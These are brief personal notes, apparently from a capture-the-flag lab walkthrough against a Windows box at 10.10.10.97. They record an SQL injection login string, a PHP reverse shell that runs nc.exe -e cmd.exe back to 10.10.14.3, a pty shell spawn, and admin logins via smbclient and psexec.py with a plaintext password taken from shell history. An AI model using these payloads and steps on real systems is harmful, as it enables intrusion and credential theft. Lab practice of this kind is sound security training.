

SQL - Create Account
created an account using
> 'OR 1 OR'
as a result we can see all notes made on the site

tyler:
smbclient \\\\10.10.10.97\\new-site -U tyler
upload php reverse shell <--- mine just keeps dropping aft er 15 seconds (server seems to reset wiping my file off)
tried the writeups way- copying nc.exe to desktop then using (put nc.exe) onto the smb server, followed by a php rev script
- <?php
- system('nc.exe -e cmd.exe 10.10.14.3 4444')
- ?>
--gained user.txt---------------
> locate bash.exe
run it /folder/path/bash.exe
spawn a shell>
python -c "import pty;pty.spawn('/bin/bash')"
>history
shows admin password
connect with
> smbclient -U 'administrator%u6!4ZwgwOm#^OBf#Nwnh' \\\\10.10.10.97\\c$
psexec.py administrato:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97